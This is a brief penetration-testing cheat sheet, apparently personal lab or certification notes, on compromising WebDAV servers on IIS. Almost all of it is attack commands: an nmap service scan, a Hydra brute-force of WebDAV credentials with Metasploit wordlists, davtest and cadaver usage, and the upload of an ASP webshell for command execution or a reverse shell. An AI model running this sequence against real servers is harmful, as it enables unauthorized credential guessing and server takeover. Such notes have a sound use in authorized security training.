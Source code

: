 # WebDav
NOTE: Will need credentials, webdav implements authentication (username: password) - Brute Force Requred (Hydra/Metasploit)

Is it configured to run on IIS? 
Post gaining legit credentials, upload a malicious asp payload that can be used to execute commands or gain reverse shell

## Scan to see version being ran
nmap -sV -p 80 --script=http-enum TARGET

## Brute Force for Credentials 
Hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt TARGET http-get /webdav/

Davtest -auth user:password -url http://TARGET/webdav

Cadaver http://TARGET/webdav
Add Webshell: put /usr/share/webshells/asp/webshell.asp


